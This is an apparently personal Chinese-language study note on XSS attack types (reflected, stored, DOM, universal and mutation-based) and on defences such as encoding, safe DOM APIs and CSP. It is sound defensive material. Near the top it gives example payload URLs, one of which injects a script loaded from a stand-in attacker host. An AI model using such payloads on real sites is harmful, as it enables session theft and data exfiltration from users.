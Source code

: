 ```yaml
---
date: 2024-04-03 18:02
modified: 2025-07-01 14:12
---
```


# XSS 攻击

XSS（Cross Site Scripting，跨站脚本攻击）是一种代码注入攻击。攻击者利用网页站点的漏洞，通过巧妙的方法注入恶意指令代码到网页（如：表单提交，URL 注入），当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。

最常见的几种分类：反射型（非持久型）、存储型（持久型）、DOM 型、通用型、突变型。

## 反射型（非持久型）XSS

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索，跳转等。由于需要用户主动打开或点击恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。比如下面的 URL：

```text
http://x.x.x.x:8080/dosomething?message="<script src="http://www.hacktest.com:8002/xss/hacker.js"></script>"

http://localhost/test.php?param=<script>alert(/xss/)</script>
```

POST 的内容也可以触发反射型 XSS，只不过它的触发条件比较苛刻（构建表单提交页面，并引导用户点击），所以非常少见。

反射型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码
2. 用户打开有恶意代码的 URL 时，网站服务器将恶意代码从 URL 取出，拼接在 HTML 返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也会被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户行为，调用目标网站接口执行攻击者指定的操作

反射型 XSS 受到 XSS Auditor（Chrome 内置的 XSS 保护，能够检测到 URL 上的 XSS 攻击，将网页拦截掉）、NoScript 等防御手段的影响较大，所以它的危害性较存储型要小。

## 存储型（持久型）XSS

恶意脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器传回并执行，影响范围比反射型和 DOM 型 XSS 更大。存储型 XSS 攻击的原因仍然是没有做好数据过滤：前端提交数据至服务器端时，没有做好过滤；服务端在按受到数据时，在存储之前，没有做过滤；前端从服务器端请求到数据，没有过滤输出。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖，商品评论，用户私信等。如骇客写下一篇包含有恶意 JavaScript 代码的博客文章，文章发表后，所有访问该博客的用户，都会在他们的浏览器中执行这段恶意 JS 代码。

存储型 XSS 的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中
2. 用户打开目标网站时，网站服务端将恶意代码从数据库中取出，拼接在 HTML 中返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或冒充用户行为，凋用目标网站接口执行攻击者指定的操作

不论是反射型攻击还是存储型，攻击者总需要找到两个要点，即“输入点”与“输出点”，也只有这两者都满足，XSS 攻击才会生效：

- “输入点”用于向 Web 页面注入所需的攻击代码
- “输出点”就是攻击代码被执行的地方

## DOM 型 XSS

DOM 型 XSS 攻击，实际上就是前端 JS 代码不够严谨，把不可信的内容插入到了页面。DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JS 自身的安全漏洞。

DOM 型 XSS 是基于 DOM 文档对象模型的。对于浏览器来说，DOM 文档就是一份 XML 文档，当有了这个标准的技术之后，通过 JavaScript 就可以轻松的访问 DOM。当确认客户端代码中有 DOM 型 XSS 漏洞时，诱使（钓鱼）一名用户访问自己构造的 URL，利用步骤和反射型很类似，但是唯一的区别就是，构造的 URL 参数不用发送到服务器端，可以达到绕过 WAF、躲避服务端的检测效果。

DOM 型 XSS 攻击步骤：

1. 攻击者构造出特殊数据，其中包含恶意代码
2. 用户浏览器执行了恶意代码
3. 恶意窃取用户数据并发送到攻击者的网站，或冒充用户行为，调用目标网站接口执行攻击者指定的操作

## 通用型 XSS

通用型 XSS，也叫做 UXSS 或者 Universal XSS，全称 Universal Cross-Site Scripting。

上面三种 XSS 攻击的是因为客户端或服务端的代码开发不严谨等问题而存在漏洞的目标网站或者应用程序。这些攻击的先决条件是访问页面存在漏洞，但是 UXSS 是一种利用浏览器或者浏览器扩展漏洞来制造产生 XSS 的条件并执行代码的一种攻击类型。

不仅是浏览器本身的漏洞，现在主流浏览器都支持扩展程序的安装，而众多的浏览器扩展程序可能导致带来更多的漏洞和安全问题。因为 UXSS 攻击不需要网站页面本身存在漏洞，同时可能访问其他安全无漏洞页面，使得 UXSS 成为 XSS 里危险和最具破坏性的攻击类型之一。

漏洞案例：

- [IE6 或火狐浏览器扩展程序 Adobe Acrobat 的漏洞](https://blog.jeremiahgrossman.com/2007/01/what-you-need-to-know-about-uxss-in.html)
- [Flash Player UXSS 漏洞 – CVE-2011-2107](https://helpx.adobe.com/security/security-bulletin.html)
- [安卓版 Chrome 浏览器漏洞](https://issues.chromium.org/issues/40064753)

## 突变型 XSS

突变型 XSS，也叫做 mXSS 或，全称 Mutation-based Cross-Site-Scripting。（mutation，突变，来自遗传学的一个单词）

如果用户所提供的富文本内容通过 JS 代码进入 `innerHTML` 属性后，一些意外的变化会使得这个认定不再成立：浏览器的渲染引擎会将本来没有任何危害的 HTML 代码渲染成具有潜在危险的 XSS 攻击代码。

由于 HTML 内容进入 `innerHTML` 后发生意外变化，将会导致潜在的 mXSS 攻击。

常见 mXSS 种类：

- 反引号打破属性边界导致的 mXSS：该类型是最早被发现并利用的一类 mXSS，于 2007 年被提出，随后被有效的修复
- 未知元素中的 `xmlns` 属性所导致的 mXSS：一些浏览器不支持 HTML5 的标记，例如 IE8，会将 `article`、`aside`、`menu` 等当作是未知的 HTML 标签
- CSS 中反斜线转义导致的 mXSS：在 CSS 中，允许用 `\` 来对字符进行转义，例如：`property: 'v\61 lue'` 表示 `property: 'value'`，其中 `61` 是字母 `a` 的 ascii 码（十六进制）。`\` 后也可以接 unicode，例如：`\20AC` 表示 `€`。正常情况下，这种转义不会有问题。但是碰上 `innerHTML` 后，一些奇妙的事情就会发生
- CSS 中双引号实体或转义导致的 mXSS：`&quot;`、`&#x22;`、`&#34;` 等双引号的表示形式均可导致这类问题
- CSS 属性名中的转义所导致的 mXSS
- 非 HTML 文档中的实体突变
- HTML 文档中的非 HTML 上下文的实体突变

# 防御方式

XSS 攻击有两大要素：

1. 攻击者提交恶意代码
2. 浏览器执行恶意代码

##  对用户提交的内容进行过滤或编码

服务端和客户端对用户提交的内容进行过滤或编码

- 过滤：去掉一些危险的标签，去掉一些危险的属性
- 编码：对危险的标签进行 HTML 实体编码

一般需要前端（作为 HTML 插到页面前、作为代码执行前、提交给后端前）和后端（存入数据库前）都做过滤或编码：

- 前端：预防 DOM 型 XSS 攻击；预防将恶意代码提交给服务器；预防后端返回包含恶意代码的数据
- 后端：预防攻击者绕过前端过滤，直接构造请求，提交恶意代码

## 预防 DOM 型 XSS 攻击

DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。

在使用 `innerHTML`、`outerHTML`、`document.write()`、Vue 的 `v-html`、React 的 `dangerouslySetInnerHTML` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 `textContent`、`setAttribute()` 等。

DOM 中的内联事件监听器，如 `location`、`onclick`、`onerror`、`onload` 等，标签的 `href` 属性，JavaScript 的 `eval()`、`setTimeout()`、`setInterval()` 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。

## 使用 CSP（内容安全策略）

建立白名单，告诉浏览器哪些外部资源可以被执行。它的实现和执行全都由浏览器完成，开发者只需要提供配置

开启CSP配置：

1. 在 HTTP 首部设置 Content-Security-Policy
2. 在 meta 标签设置 http-equiv 属性为 Content-Security-Policy
